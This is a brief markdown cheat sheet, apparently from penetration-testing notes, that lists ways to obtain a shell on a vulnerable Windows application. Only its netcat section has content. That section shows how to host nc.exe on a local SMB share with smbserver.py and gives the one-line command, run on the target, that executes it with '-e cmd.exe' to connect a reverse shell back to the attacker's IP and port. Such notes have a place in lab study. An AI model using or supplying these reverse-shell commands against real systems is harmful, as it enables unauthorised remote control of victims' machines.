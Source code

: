 - [SMB and netcat](#Netcat)
- [Nishang](#Nishang)
- [Metasploit](#Metasploit)

# Netcat
- On your local machine run smb server
```
mkdir smb; cd smb; cp /usr/share/windows-resources/binaries/nc.exe .;cd ..
```
- Run SMB server
```
smbserver.py share smb
```
 On vulnerable app
 ```
 \\<your_local_ip>\share\nc.exe -e cmd.exe <your_local_ip> <your_local_port>
 ```

